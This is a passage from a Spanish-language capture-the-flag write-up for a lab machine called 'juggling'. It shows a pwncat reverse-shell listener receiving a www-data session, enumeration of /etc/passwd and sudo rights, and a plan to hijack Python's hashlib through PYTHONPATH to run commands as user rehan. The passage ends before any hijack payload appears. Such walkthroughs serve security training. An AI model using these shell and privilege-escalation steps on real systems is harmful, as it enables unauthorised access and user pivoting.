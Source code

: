 Y conseguimos una consola interactiva como `www-data`
```console
$ sudo pwncat-cs -lp 443

[17:00:46] Welcome to pwncat 🐈!                                                                                                                                               __main__.py:164
[17:01:20] received connection from 192.168.182.6:56160                                                                                                                             bind.py:84
[17:01:20] 192.168.182.6:56160: registered new host w/ db                                                                                                                       manager.py:957
(local) pwncat$                                                                                                                                                                               
(remote) www-data@juggling:/var/www/juggling$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Library Hijacking + Abusing SETENV -> User Pivoting
Vemos que existe un usuario en el sistema llamado `rehan`
```console
(remote) www-data@juggling:/var/www/juggling$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
rehan:x:1001:1001::/home/rehan:/bin/bash
```

Vemos que como `www-data` podemos ejecutar el script `/opt/md5.py` como `rehan` y además podemos establecer las variables de entornos, variables interesantes como el Path de librerías de Python (por ejemplo).
```console
(remote) www-data@juggling:/var/www/juggling$ sudo -l
Matching Defaults entries for www-data on juggling:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on juggling:
    (rehan) SETENV: NOPASSWD: /opt/md5.py
```

Este es el contenido del script.
```python
#!/usr/bin/python3

import hashlib

result = hashlib.md5("Hello World".encode()).hexdigest()
print(f"md5sum: {result}")
```

Y como podemos controlar el path donde python va a buscar por la librería `hashlib`, podríamos secuestrar esta librería para ejecutar un comando como `rehan`

La variable de entorno que se encarga de buscar las librerías de python es `PYTHONPATH`

> `PYTHONPATH` is an environment variable which you can set to add additional directories where python will look for modules and packages.
